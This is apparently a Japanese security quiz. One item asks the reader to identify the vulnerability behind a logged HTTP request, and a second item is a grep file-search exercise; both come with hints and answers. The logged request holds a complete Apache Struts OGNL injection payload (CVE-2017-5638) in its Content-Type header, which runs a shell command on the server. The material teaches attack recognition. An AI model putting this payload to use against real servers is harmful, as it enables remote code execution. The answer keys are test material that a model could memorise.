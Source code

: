 # 問題4
こんなログがありました．これはどの脆弱性を狙った攻撃でしょう？
CVE-XXXX-XXXX (Xは数字)で答えてください
 

<CODE>
POST / HTTP/1.1
Connection: Keep-Alive
Content-Type: %{(#Normal='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
Accept: text/html, application/xhtml+xml, */*
Accept-Language: zh-CN
User-Agent: Mozilla/4.0 (compatible; Win32; WinHttp.WinHttpRequest.5)
Content-Length: 178
Host: ***.***.***.***
 
c="123"
 
--447635f88b584ab6b8d9c17d04d79918
 
Content-Disposition: form-data; name="image1"
 
Content-Type: text/plain; charset=utf-8
 
x
--447635f88b584ab6b8d9c17d04d79918--
</CODE> 
## ヒント
1 攻撃コードで調べてみましょう
2 Apache Strutsの脆弱性ですね
3 どのCVEか調べてみてください(これ以上のヒントはありません)
4 
5 

## 解答
CVE-2017-5638
## 解説
http://www.morihi-soc.net/?p=654

# 問題5
大量のファイルのなかから見つけ出す (パスワードあり)
## ヒント
1 READMEを読んでください
2 ファイルの中から文字列を探すにはgrepを使いましょう 
3 grepでフォルダから探すときのオプションを調べてみましょう
4 すべてのフォルダを解凍しましょう
5 さっきと同じ方法で探してみてください
## 添付ファイル HLHQuiz1.zip
## 解答
Mercury